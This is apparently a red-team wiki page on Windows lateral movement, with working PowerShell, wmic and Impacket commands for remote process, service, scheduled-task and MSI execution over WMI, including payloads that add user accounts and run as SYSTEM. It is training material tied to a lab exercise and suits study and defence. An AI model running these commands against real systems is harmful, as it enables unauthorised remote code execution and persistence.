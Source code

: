 # Pivoting

## Theory

In a red team assesment you will have to pivot throught the network. You will find here some technics about that like

* **Spawn a process remotly**: with PsExec, WinRM, SC (Services), Scheduled Tasks
* **WMI & Lateral Movement**: allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement
* **Alternate Authentication Material**: like NTLM or Kerberos Authentication

## Practice

In this part, you will see various techniques, tools, for Active Directory enumeration. But you will consider that you already have compromise a initial account in the AD.

### WMI & Lateral Movement

Windows Management Instrumentation (WMI) allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement

### Create a WMI Session

{% tabs %}
{% tab title="Windows" %}
{% hint style="info" %}
Before connecting to WMI through powershell, we need to create a PSCredential object
{% endhint %}

```bash
#Create a PSCredential object:

$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We can now connect to WMI through: DCOM protocol with RPC over port 135 or Wsman with WinRm on ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

```bash
#Create a WMI Session:

$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop

#store the session on the $Session variable
```
{% endtab %}
{% endtabs %}

### Remote Process Creation Using WMI

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) can be used to create a process and get a shell to WMI.

```bash
#Exec a scheduled command
wmiexec.py domain/username:password@10.10.10.10
```
{% endtab %}

{% tab title="Windows" %}
{% hint style="info" %}
Before, we need to create a Cimsession object
{% endhint %}

```bash
#Execute a command remotely 
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

Or with CMD

```bash
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```
{% endtab %}
{% endtabs %}

### Remote Service Creation Using WMI

{% tabs %}
{% tab title="Windows" %}
{% hint style="info" %}
Before, we need to create a Cimsession object
{% endhint %}

We first create the Service

```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "MyService";
DisplayName = "MyService";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

Then we Create an Handle to the service and Start it

```bash
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Finaly stop and delete it

```bash
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```
{% endtab %}
{% endtabs %}

### Remote Scheduled Tasks Creation Using WMI

{% tabs %}
{% tab title="Windows" %}
{% hint style="info" %}
Before, we need to create a Cimsession object
{% endhint %}

```bash
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "MyTask"
Start-ScheduledTask -CimSession $Session -TaskName "MyTask"
```

Delete it

```bash
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```
{% endtab %}
{% endtabs %}

### Remote MSI Installation Using WMI

{% tabs %}
{% tab title="Windows" %}
{% hint style="info" %}
Before, we need to create a Cimsession object
{% endhint %}

```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

With CMD

```bash
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```
{% endtab %}
{% endtabs %}

## Alternate Authentication Material

In this section, we will speak about alternate authentication like NTLM or Kerberos Authentication which allow us to access a Windows account without actually knowing a user’s password itself. You can check for more details on theses techniques on their dedicated Hack-Army articles.

{% content-ref url="kerberos/pass-the-certificate.md" %}
[pass-the-certificate.md](kerberos/pass-the-certificate.md)
{% endcontent-ref %}

{% content-ref url="ntlm/pth.md" %}
[pth.md](ntlm/pth.md)
{% endcontent-ref %}

{% content-ref url="kerberos/ptk.md" %}
[ptk.md](kerberos/ptk.md)
{% endcontent-ref %}

{% content-ref url="kerberos/ptt.md" %}
[ptt.md](kerberos/ptt.md)
{% endcontent-ref %}

{% content-ref url="../../portForward.md" %}
[portForward.md](../../portForward.md)
{% endcontent-ref %}

## References

{% embed url="https://tryhackme.com/room/lateralmovementandpivoting" %}
